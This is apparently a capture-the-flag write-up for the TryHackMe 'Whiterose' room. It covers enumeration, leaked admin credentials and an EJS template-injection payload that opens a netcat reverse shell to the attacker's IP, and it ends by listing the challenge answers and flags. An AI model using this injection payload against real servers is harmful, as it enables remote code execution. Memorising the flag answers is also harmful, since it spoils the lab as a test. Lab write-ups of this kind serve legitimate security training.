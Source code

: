 # Whiterose
(flags are at the end of the writeup)

### Welcome!
Initial scan shows port 22 and 80 open: 

    # Nmap 7.94SVN scan initiated Fri Nov  1 04:34:41 2024 as: /usr/lib/nmap/nmap --privileged -p22,80 -sV -sC -oN scan 10.10.141.246
    Nmap scan report for cyprusbank.thm (10.10.141.246)
    Host is up (0.046s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
    |   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
    |_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
    80/tcp open  http    nginx 1.14.0 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html; charset=utf-8).
    |_http-server-header: nginx/1.14.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Port 80 gets redirected to `cyprusbank.thm`, so add `10.10.141.246 cyprusbank.thm` to the /etc/hosts file. After some enumeration I found a virtual host. The command I used is `gobuster vhost -u "http://10.10.141.246" --domain cyprusbank.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --exclude-length 250-320`:<br />
![image](https://github.com/user-attachments/assets/43250f92-25dd-49c8-9e8f-f80388da560f)<br />
So add this new host to the `/etc/hosts` file. <br />
![image](https://github.com/user-attachments/assets/ab79b293-a7da-4ecf-a0e7-498194be2e05)<br />
Using the credentials provided in the task, `Olivia Cortez:olivi8`, we can log in. The page seems to show information about some rich people. I need to answer the first question which is `What's Tyrell Wellick's phone number?`. If I search for "Tyrell Wellick", I can't see it's phone number, just like everybody else. And also I'm not able to access the `Settings` page.<br />
![image](https://github.com/user-attachments/assets/f96ba4ff-33ff-4284-9a64-44e176518f36)<br />
Enumerating the website, I realized that it's because I am not an admin. In the "Messages" panel there's a chat going on between some admins:<br />
![image](https://github.com/user-attachments/assets/28a38dd4-9c02-4a14-9a12-2c0e82efe21c)<br />
and this is the URL of the chat: `http://admin.cyprusbank.thm/messages/?c=5`, by submitting `c=3`, this is what I get: <br />
![image](https://github.com/user-attachments/assets/0595a1d7-82ba-4396-a24d-95a08d3870d6)<br />
So the `c` parameters stands for the number of chat messages that I can view. And here's what I found: <br />
![image](https://github.com/user-attachments/assets/5310d82f-f08e-4a39-9c9c-ae2787f1d859)<br />
`Gayle Bev:p~]P@5!6;rs558:q`. So now I can log with his account, and can view people's phone numbers! (Tyrell Wellick's phone number is at the end of the write up).<br />
Now I can access the settings panel, which seems that it's used to change user's passwords:<br />
![image](https://github.com/user-attachments/assets/f2a34993-b381-4134-9fe3-92325f196536)<br />
I checked if the passwords really changed, but they don't so I probably need to focus on some SSTI vulnerability? After enumerating the request for about 1 hour, I found out that removing the password parameter results in an error:<br />
![image](https://github.com/user-attachments/assets/5c877073-1ce4-4b83-8ca8-c854e82cd548)<br />
This suggests that the server is running EJS(Embedded JavaScript). So I searched online for some EJS SSTI and found [this one](https://github.com/mde/ejs/issues/720). So the password parameter that worked for me is `&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.11.108.100 4444 -e sh');s`, and the final payload request looks like this:<br />
![image](https://github.com/user-attachments/assets/84e647ec-ab70-44aa-a152-fb2b8772a051)<br />
This got me the user flag. <br />
Running `sudo -l` I get this:<br />
![image](https://github.com/user-attachments/assets/422e621a-990b-4748-8e41-d6177d64b9fc)<br />
So I searched online how to exploit sudo on `sudoedit`, and found [this](https://github.com/n3m1sys/CVE-2023-22809-sudoedit-privesc) exploit. <br />
![image](https://github.com/user-attachments/assets/c5aa4abd-800b-4b5a-8ea4-874acfae5ac4)<br />
Let's check if my sudo is vulnerable:<br />
![image](https://github.com/user-attachments/assets/aa2b3866-33bd-457e-9351-9af16cd6ac63)<br />
It is! Let's run the exploit:<br />









- What's Tyrell Wellick's phone number? `842-029-5701`
- What is the user.txt flag? `THM{4lways_upd4te_uR_d3p3nd3nc!3s}`
- What is the root.txt flag?
